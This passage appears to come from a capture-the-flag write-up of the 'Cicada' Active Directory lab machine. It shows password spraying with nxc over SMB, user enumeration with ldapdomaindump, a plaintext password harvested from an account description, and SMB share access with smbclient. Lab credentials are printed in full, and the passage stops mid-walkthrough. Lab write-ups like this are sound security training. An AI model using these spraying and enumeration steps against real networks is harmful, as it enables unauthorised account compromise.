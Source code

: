 ```
grep 'CICADA\\' usernames.txt | grep 'SidTypeUser' | awk '{print $2}' > usernames2.txt
```

Here is what happens in greater detail:

- ```grep 'CICADA\\'```: Select lines that contain "CICADA", which represents usernames in this case.

- ```grep 'SidTypeUser'```: Filter only those lines where the entry is a user (excluding groups).

- ```awk '{print $2}'```: Extract the second column, which is the username.

- ```> usernames2.txt```: Output the result to a file named usernames2.txt.

The next step is crucial, as it involves password spraying against the cleaned-up list of valid usernames.

```
nxc smb 10.10.11.35 -u usernames2.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

After performing this action, we discover that the password correlates with the username ```michael.wrightson```.

Next, by using ```ldapdomaindump ```to enumerate additional users for lateral movement, we also identified the username ```david.orelious```, along with his password found in the description.

Note: ```ldapdomaindump``` is a powerful tool designed for extracting information from Active Directory environments. It enables the enumeration of users, groups, and other valuable data by querying the LDAP directory. In this context, it allows us to gather potential targets for lateral movement, increasing our chances of successfully accessing additional resources within the network.

```
ldapdomaindump ldap://10.10.11.35 -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

Also: ```cat domain_users.grep```

However, this output is a bit messy, so we need to clear it up a bit:

```
cat domain_users.grep | grep david.orelious
```

And now we have the output that is a little easier to read:

```
David Orelious  David Orelious  david.orelious          Domain Users    03/14/24 12:17:29       08/28/24 17:25:57       03/15/24 06:32:21       NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD      03/14/24 12:17:29       S-1-5-21-917908876-1423158569-3159038727-1108      Just in case I forget my password is aRt$Lp#7t*VQ!3
```

As we explored the machine and experimented with various techniques, we attempted to list the DEV share discovered during earlier enumeration stages—and it worked!

```
smbclient -U david.orelious //cicada.htb/DEV
```

Here is how we went from there:
